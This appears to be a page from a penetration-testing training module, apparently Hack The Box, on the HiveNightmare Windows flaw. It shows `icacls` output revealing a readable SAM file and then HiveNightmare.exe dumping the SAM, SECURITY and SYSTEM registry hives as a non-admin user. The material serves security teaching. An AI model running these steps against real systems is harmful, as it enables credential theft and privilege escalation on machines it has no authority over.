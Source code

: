 # Kernel attacks

### Checking Permissions on the SAM File

We can check for this vulnerability using `icacls` to check permissions on the SAM file. In our case, we have a vulnerable version as the file is readable by the `BUILTIN\Users` group.

Kernel Exploits

```
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

```

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have `System Protection` enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

### Performing Attack and Parsing Password Hashes

This [PoC](https://github.com/GossiTheDog/HiveNightmare) can be used to perform the attack, creating copies of the aforementioned registry hives:

Kernel Exploits

```powershell
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe

HiveNightmare v0.6 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-08-07 written out to current working directory as SAM-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-08-07 written out to current working directory as SECURITY-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-08-07 written out to current working directory as SYSTEM-2021-08-07

Assuming no errors above, you should be able to find hive dump files in current working directory.

```
